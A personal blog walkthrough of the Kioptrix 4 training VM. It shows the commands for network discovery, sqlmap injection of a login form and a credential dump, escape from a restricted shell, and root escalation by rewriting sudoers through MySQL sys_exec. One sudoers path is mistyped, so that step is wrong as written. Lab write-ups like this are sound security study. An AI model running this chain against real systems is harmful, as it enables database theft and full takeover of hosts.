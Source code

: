 ```yaml
---
layout: post
title: Kioptrix 4 - Walkthrough
---
```


I have done the fourth VM in the Kioptrix series. Another really great VM, a lot of fun.

For first I started out by finding the machine

```
netdiscover -r 192.168.1.0/24
```

Then I ran an nmap scan, from metasploit.

```
host           port  proto  name         state  info
----           ----  -----  ----         -----  ----
192.168.1.105  22    tcp    ssh          open   OpenSSH 4.7p1 Debian 8ubuntu1.2 protocol 2.0
192.168.1.105  80    tcp    http         open   Apache httpd 2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
192.168.1.105  139   tcp    netbios-ssn  open   Samba smbd 3.X workgroup: WORKGROUP
192.168.1.105  445   tcp    netbios-ssn  open   Samba smbd 3.X workgroup: WORKGROUP
```

I found some that samba is running. But let's start with port 80.

On port 80 we face a login-screen. I ran sqlmap against it and found an injection in the mypassword parameter.

```
[19:08:51] [INFO] POST parameter 'mypassword' seems to be 'MySQL >= 5.0.12 AND time-based blind (SELECT)' injectable
```

```
sqlmap -r checklogin.txt -p mypassword --dbms=mysql -D members --dump  
```

And got this from the DB

```
Database: members
Table: members
[2 entries]
+----+----------+-----------------------+
| id | username | password              |
+----+----------+-----------------------+
| 1  | john     | MyNameIsJohn          |
| 2  | robert   | ADGAdsafdfwt4gadfga== |
+----+----------+-----------------------+
```

I used the credencials to ssh into the machine. There I was stuck with a really limited shell. I had to cheat here a bit because I didn't know how to proceed. But it turns out it was really quite simple to break out from that shell.

```
echo os.system("/bin/bash")
```

Here I ran some priv-esc scripts to map out the system. I found that mysql was running as root. And that it was not accessible from the outside world. So I guess that's why the sysadmin never bothered to add a root password. Not that it matters, if s/he would have added it, it would still be available in the php-file that connects to the database. Anyways, I logged in to mysql. First I tried to get this exploits to work: https://www.exploit-db.com/exploits/1518/
But since I didn't have access to gcc it was kind of hard. So after some cheating I learned about sys_exec

So I did

```
mysql -u root
SELECT sys_exec("cp /etc/sudoers /tmp/sudoers")
SELECT sys_exec("chmod 777 /tmp/sudoers")
```

Then I added john to sudo and then I did:
```
SELECT sys_exec("cp /tmp/sudoers /etc/sudiers")
```

Then

```
sudo su
```

And done.

